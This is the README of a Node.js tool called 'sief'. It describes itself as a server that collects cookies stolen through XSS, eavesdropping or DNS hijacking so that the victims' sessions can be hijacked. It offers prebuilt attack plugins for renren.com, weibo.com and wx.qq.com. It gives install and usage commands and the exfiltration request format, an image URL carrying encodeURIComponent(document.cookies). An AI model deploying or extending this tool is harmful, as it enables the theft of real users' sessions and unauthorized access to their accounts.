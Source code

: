 sief
=============

NOTICE: This project is under development, nut ready to use yet.

A server listening to cookie submission to hijack session, supporting writing plugins for site specific attacks.

    sief = thief + safe

This is a project to steal sessions, and to make your site safe.

## Features

* Request to an image to upload cookies stolen by xss/network eavsdropping/dns hijack/other.
* Log persistence
* Prebuilt plugins to attack renren.com, weibo.com, wx.qq.com
* Write your own plugin to do other attacks you desired
* View real-time cookie submissions and login those hijacked sessions directly in browser with [Sief Chrome Extension](https://github.com/shaoshuai0102/sief-chrome-extension)

## Install

1. Install PhantomJS

2. Install sief

       npm install sief -g

## Usage

### Server

    Usage: sief [options] <plugin|dir ...>

    Options:

      -h, --help                   output usage information
      -V, --version                output the version number
      -i, --ignore-time [seconds]  specify seconds during which same requests will be ignored [300]
      -p, --port [port]            specify the port sief server listening to [3000]
      -l, --log-level [level]      set log level [INFO]


### Submit cookies

    GET /xxx.png?cookie=#cookies#&referer=#referer#&domain=#domani#

Parameters:

* `cookies` - Required. Encode cookies first, for example, `encodeURIComponent(document.cookies)`
* `referer` - If the attack is an xss exploit, referer will be retrieved from `headers.referer` directly, otherwise, specifiy it in query string.
* `domain` - Domain is calculated from referer, defaults to main domain, for example `qq.com`. IF you want to fire a attack to its subdomain(`wx.qq.com`), specify it in query string.